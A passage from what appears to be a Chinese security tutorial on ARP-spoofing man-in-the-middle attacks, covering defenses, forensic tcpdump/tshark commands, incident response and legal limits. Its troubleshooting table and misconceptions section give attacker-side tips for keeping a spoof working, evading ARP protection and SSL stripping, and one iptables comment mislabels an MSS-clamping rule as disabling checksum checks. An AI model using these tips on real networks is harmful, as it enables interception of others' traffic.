| 网络层 | 802.1X端口认证 | 准入控制 | 高 | 需要RADIUS服务器 |
| 网络层 | VLAN隔离 | 限制攻击范围 | 中 | 需要可管理交换机 |
| 应用层 | HTTPS/TLS | 加密通信 | 低 | 免费 |
| 应用层 | VPN | 全程加密隧道 | 中 | 视方案而定 |
| 监控层 | arpwatch/SNMP告警 | 检测+通知 | 低 | 免费 |
| 监控层 | IDS（Snort/Suricata） | 深度检测 | 高 | 免费但需专业运维 |

### 6.7 攻击取证与应急响应

#### 6.7.1 ARP欺骗取证

当怀疑网络中存在ARP欺骗时，按以下步骤取证：

```bash
# 第一步：记录当前ARP状态
arp -a > /tmp/arp_snapshot_$(date +%s).txt
ip neigh show >> /tmp/arp_snapshot_$(date +%s).txt

# 第二步：抓取ARP流量
sudo tcpdump -i eth0 arp -w /tmp/arp_capture_$(date +%s).pcap -c 1000

# 第三步：分析抓包文件
tshark -r /tmp/arp_capture_*.pcap \
    -T fields -e frame.time -e arp.opcode -e arp.src.hw_mac \
    -e arp.src.proto_ipv4 -e arp.dst.hw_mac -e arp.dst.proto_ipv4 \
    arp.opcode==2

# 第四步：识别攻击者MAC
# 找出发送ARP Reply最频繁的MAC地址
tshark -r /tmp/arp_capture_*.pcap -T fields -e arp.src.hw_mac arp.opcode==2 \
    | sort | uniq -c | sort -rn | head -5

# 第五步：反查攻击者IP
# 在同一抓包文件中查找该MAC对应的IP
tshark -r /tmp/arp_capture_*.pcap \
    -T fields -e arp.src.hw_mac -e arp.src.proto_ipv4 \
    arp.opcode==2 | grep "攻击者MAC地址"

# 第六步：通过交换机端口定位物理位置
# 如果有交换机管理权限
# show mac address-table address <攻击者MAC>
# 找到对应端口号，追踪到物理位置
```

#### 6.7.2 应急处置流程



应急处置命令速查：

```bash
# 立即恢复本机ARP缓存（临时止血）
# 删除所有动态ARP条目
sudo ip neigh flush all

# 重新绑定网关
sudo arp -s 192.168.1.1 <真实网关MAC>

# 启用ARP防护（如果安装了arpwatch）
sudo systemctl restart arpwatch

# 如果是在交换机上
# switch(config)# errdisable recovery cause arp-inspection
# switch(config)# interface range gi0/1-48
# switch(config-if-range)# shutdown
# switch(config-if-range)# no shutdown
# 批量重启端口清除异常状态
```

### 6.8 合法使用场景与法律边界

ARP欺骗技术并非只用于恶意目的，以下场景属于合法使用：

**授权渗透测试**：在获得书面授权的情况下，使用ARP欺骗模拟中间人攻击，验证目标网络的安全防护能力。测试报告应包含发现的漏洞、影响范围和修复建议。

**网络故障排查**：网络管理员使用ARP工具诊断网络连接问题、验证交换机配置、检测IP冲突。

**安全研究**：在隔离的实验室环境中研究ARP协议漏洞、开发和测试防御工具。

**法律红线**：未经授权对他人网络实施ARP欺骗属于违法行为。在中国，《网络安全法》第27条明确禁止未经授权侵入他人网络；在其他国家/地区，可能违反《计算机欺诈和滥用法》（CFAA）等相关法律。即使是善意测试，也必须获得书面授权。

### 6.9 常见误区与排错

#### 误区一：开启IP转发后ARP欺骗就能完美工作

实际情况：即使开启了IP转发，仍可能因为防火墙规则、MTU不匹配、或TCP校验和错误导致转发失败。需要确保iptables允许转发、MTU一致、且没有启用TCP校验和验证：

```bash
# 允许转发
sudo iptables -A FORWARD -i eth0 -o eth0 -j ACCEPT

# 禁用TCP校验和验证（避免转发后校验和错误）
sudo iptables -A FORWARD -p tcp --tcp-flags SYN,RST SYN -j TCPMSS --clamp-mss-to-pmtu
```

#### 误区二：ARP欺骗对所有通信都有效

实际情况：ARP欺骗只对同一子网内的通信有效。跨子网通信需要经过路由器，攻击者无法通过ARP欺骗截获。此外，使用MACsec（802.1AE）加密的网络可以防止ARP欺骗。

#### 误区三：使用HTTPS就不怕ARP欺骗

实际情况：ARP欺骗+SSL剥离可以将HTTPS降级为HTTP。虽然HSTS可以防止降级，但：
- 并非所有网站都配置了HSTS
- HSTS首次访问仍可能被劫持
- 证书错误页面可能被用户忽略（点击"继续访问"）

#### 误区四：ARP防火墙能完全防御

实际情况：ARP防火墙（如anti-arpspoof）主要通过检测ARP缓存变化来告警，但：
- 如果攻击者在ARP缓存过期后立刻投毒，检测窗口很短
- 某些ARP防火墙的实现存在绕过方法
- 无法防御被动式ARP攻击（仅监听不发送）

#### 排错清单

如果ARP欺骗后目标机断网，检查以下项目：

| 问题 | 检查方法 | 解决方案 |
|------|----------|----------|
| IP转发未开启 | `cat /proc/sys/net/ipv4/ip_forward` | `echo 1 > /proc/sys/net/ipv4/ip_forward` |
| iptables阻止转发 | `sudo iptables -L FORWARD` | `sudo iptables -A FORWARD -j ACCEPT` |
| 攻击机MAC地址错误 | `ip link show eth0` | 确认接口名称和MAC |
| 欺骗方向错误 | 检查arpspoof参数顺序 | 确认target和gateway顺序 |
| 防火墙NAT规则冲突 | `sudo iptables -t nat -L` | 清除冲突规则 |
| 目标机有ARP防护 | 检查目标是否安装ARP防火墙 | 更换隐蔽的欺骗方式 |

### 6.10 本案例小结

本案例从ARP协议的报文结构出发，系统讲解了ARP欺骗中间人攻击的完整知识链：

1. **协议层面**：ARP报文格式、免费ARP机制、缓存更新策略——理解"为什么能欺骗"
2. **攻击层面**：标准双向欺骗、单向欺骗、被动攻击、联动攻击——掌握"怎么欺骗"
3. **工具层面**：arpspoof/ettercap/bettercap/Scapy四种方案对比——选择"用什么欺骗"
4. **进阶手法**：SSL剥离、会话劫持、代码注入、DHCP欺骗——深入"欺骗后能做什么"
5. **检测层面**：手动检测、Wireshark过滤、自动化脚本、企业级工具——学会"怎么发现欺骗"
6. **防御层面**：静态绑定、DAI、802.1X、网络分段——掌握"怎么防止欺骗"
7. **取证层面**：流量分析、攻击者定位、应急处置——了解"被欺骗后怎么办"

ARP欺骗之所以数十年来一直是网络攻击的常客，根本原因在于ARP协议的设计缺陷——缺乏认证机制。在完全修复这个协议缺陷之前（实际上几乎不可能），上述检测和防御措施是保护局域网安全的必要手段。
